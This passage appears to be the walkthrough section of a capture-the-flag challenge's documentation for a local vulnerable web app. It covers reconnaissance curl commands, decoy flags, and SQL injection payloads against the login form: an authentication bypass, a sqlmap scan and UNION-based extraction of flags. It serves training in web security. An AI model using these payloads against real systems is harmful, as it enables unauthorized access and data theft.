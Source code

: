 ```
    └── docs/                     # Additional documentation
```

---

## 🔍 **CHALLENGE WALKTHROUGH**

### **🎯 Phase 1: Reconnaissance**

#### **Information Gathering**
```bash
# Directory enumeration
curl http://localhost:5000/robots.txt
curl http://localhost:5000/sitemap.xml

# Source code analysis
curl -s http://localhost:5000 | grep -i "razz\|flag"

# Cookie inspection
curl -I http://localhost:5000/admin
```

#### **Expected Findings**
- Decoy flag in `/robots.txt`: `RAZZ{y0U#H@v3$f()<]UNd^F@K3|FL4G}`
- Decoy flag in HTML comments: `RAZZ{y0U_H@v3^f(){UNd}/F@K3~FL4G}`
- Administrative endpoints and hidden pages

### **🎯 Phase 2: Vulnerability Detection**

#### **SQL Injection Testing**
```bash
# Basic injection tests
curl -d "username=admin'&password=test" http://localhost:5000/login
curl -d "username=admin' OR '1'='1' --&password=test" http://localhost:5000/login

# Error-based detection
curl -d "username=admin'\"&password=test" http://localhost:5000/login
```

#### **Automated Scanning**
```bash
# SQLMap vulnerability assessment
sqlmap -u "http://localhost:5000/login" \
       --data="username=admin&password=admin" \
       --level=3 --risk=3 --batch
```

### **🎯 Phase 3: Exploitation**

#### **Manual SQL Injection**
```sql
-- Authentication bypass
Username: admin' OR '1'='1' --
Password: anything

-- Union-based data extraction
Username: admin' UNION SELECT 1,2,3,flag_value,5,6,7,8 FROM system_flags --
Password: anything

-- Advanced payload with NULL handling
Username: admin' UNION SELECT NULL,NULL,NULL,flag_value,NULL,NULL,NULL,NULL FROM system_flags WHERE flag_name='admin_flag' --
Password: anything
```